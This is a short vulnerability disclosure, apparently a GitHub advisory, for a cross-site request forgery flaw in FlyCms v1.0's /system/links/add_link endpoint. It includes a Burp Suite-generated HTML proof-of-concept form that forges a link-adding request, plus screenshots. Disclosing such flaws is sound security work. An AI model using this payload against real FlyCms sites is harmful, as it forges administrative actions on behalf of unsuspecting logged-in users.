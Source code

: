 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/links/add_link

The main harm comes from attackers stealing user identities and sending malicious requests

such as simulating users sending emails, messages, payments, transfers, etc.

![1](https://github.com/ljw11e/cms/assets/155146305/2835a455-cd34-47fa-a3b7-316c1884e0f2)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/links/add_link" method="POST">
      <input type="hidden" name="linkName" value="1" />
      <input type="hidden" name="linkUrl" value="http&#58;&#47;&#47;2" />
      <input type="hidden" name="linkLogo" value="1" />
      <input type="hidden" name="type" value="0" />
      <input type="hidden" name="isShow" value="1" />
      <input type="hidden" name="sort" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/ljw11e/cms/assets/155146305/9285805e-ff63-4a46-ba09-47865e7678f6)


Successed

![3](https://github.com/ljw11e/cms/assets/155146305/1ad0f4ab-9dce-410d-a6ec-d2384e3283d8)
